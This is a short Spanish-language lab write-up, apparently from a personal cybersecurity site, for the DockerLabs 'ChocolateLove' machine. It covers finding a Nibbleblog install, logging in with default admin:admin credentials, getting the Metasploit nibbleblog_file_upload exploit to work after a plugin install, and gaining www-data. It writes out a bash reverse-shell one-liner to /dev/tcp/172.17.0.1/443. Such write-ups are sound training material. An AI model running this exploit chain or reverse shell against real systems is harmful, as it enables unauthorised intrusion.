

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/chocolatelove/index.html · generator: mkdocs

# ChocolateLove

Solo obtenemos `80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))`
En el F12 vemos:

```text
Modified from the Debian original for Ubuntu
Last updated: 2016-11-16
See: https://launchpad.net/bugs/1288690
```


```text
/nibbleblog
```
...
Probamos la ruta `172.17.0.2/nibbleblog` y existe.

Al probar con credenciales default, entramos con *admin:admin* xd
En settings se obtiene la versión de Nibbleblog

![](../../assets/img/Pasted_image_20251008182052.png)

Buscamos exploit en *msfconsole*
Usamos `msf exploit(multi/http/nibbleblog_file_upload)` SIN EXITO

En la parte de administracion -> plugins -> My Image -> Install
Ahora sí nos dejará ejecutar el exploit de **subida de archivos** y obtendremos acceso
**www-data**

Sanitizamos la shell
`bash -c "bash -i >&/dev/tcp/172.17.0.1/443 0>&1" `
*-c* : interpretar comando que se le pasa
*-i* : modo interactivo
`172.17.0.1` suele ser la **IP gateway del puente Docker**
`stty rows 16 columns 184`
